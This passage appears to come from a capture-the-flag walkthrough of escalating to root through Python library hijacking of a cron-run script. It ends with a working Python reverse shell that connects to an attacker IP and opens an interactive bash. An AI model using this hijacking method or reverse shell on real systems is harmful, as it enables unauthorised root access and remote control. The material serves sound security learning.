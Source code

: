 
Now, we wait for a while to monitor any process that uses the apache script.

<figure><img src="../../../.gitbook/assets/image (751).png" alt=""><figcaption></figcaption></figure>

And there it is. We can see it is using the `urllib.py` library to load modules. Maybe we could use this to escalate to root.

I googled a bit and saw this:

<figure><img src="../../../.gitbook/assets/image (722).png" alt=""><figcaption></figcaption></figure>

So the exploit we have to be doing is Library Hijacking. Yay! (This is my first time). Dive deeper to find a suitable exploit/method.

{% embed url="https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7" %}

So from what I have read so far, if we create a file that has the name of the library, supposedly Python will load that library first from the directory that has the script of the cronjob.&#x20;

What we can do from here is put a reverse shell inside the fake library script so that everytime the cronjob excutes, our reverse shell will be loaded

This will be my reverse shell script:

```python
import os
import subprocess
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",1234))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

p = subprocess.call(["/bin/bash", "-i"])
```
